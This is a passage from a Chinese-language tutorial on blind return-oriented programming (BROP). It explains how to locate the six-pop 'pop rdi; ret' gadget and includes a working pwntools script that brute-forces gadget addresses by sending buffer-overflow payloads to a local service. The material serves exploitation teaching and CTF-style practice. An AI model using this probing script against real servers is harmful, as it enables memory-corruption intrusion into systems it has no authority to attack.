 ```assembly
41 5f                	pop    r15
c3                   	ret

5f                      pop    rdi
c3                      ret
```

我们只要控制我们的`指令指针寄存器RIP` 从`5f`开始解析就可以拿到我们的`useful gadget`，那现在我们的任务就是找到这堆指令的地址

```
pop    rbx; pop    rbp; pop    r12; pop    r13; pop    r14; pop    r15; ret;
```

我们把stop gadget放在 6个pop的数据后面，我们找到了这个通用的gadget，程序就会连续pop6次然后ret的地址为我们的stop_gadget，我们就找到了这堆指令

```
payload = 'a' * buf_size + p64(useful_gadget) + p64(1) * 6 + p64(stop_gadget)
```

上脚本

```python
# -*- coding:utf-8 -*-
from __future__ import print_function
from pwn import *

context.log_level = "DEBUG"

def get_useful_gadget(buf_size, stop_gadget, start_addr=0x400000):
    useful_gadget = start_addr
    stop_gadget = stop_gadget
    while 1:
        useful_gadget += 1
        payload = 'a' * buf_size + p64(useful_gadget) + p64(1) * 6 + p64(stop_gadget)
        try:
            p = remote("127.0.0.1", 9999)
            p.recvline("password?")
            p.sendline(payload)
            checkstr = p.recvline(timeout=0.5)
            p.close()
            if "WelCome" in checkstr:
                try:
                    payload = 'a' * buf_size + p64(useful_gadget) + p64(0) * 7
                    p = remote("127.0.0.1", 9999)
                    p.recvline("password?")
                    p.sendline(payload)
                    checkstr = p.recvline(timeout=0.5)
                    p.close()
                except EOFError:
                    p.close()
                    log.info("find user gadget: 0x%x", useful_gadget)
                    return useful_gadget
        except EOFError:
            p.close()
            log.info("not 0x%x,try harder", useful_gadget)


if __name__ == "__main__":
    buf_size = 72
    stop_gadget = 0x400590
    useful_gadget = get_useful_gadget(buf_size, stop_gadget)
```
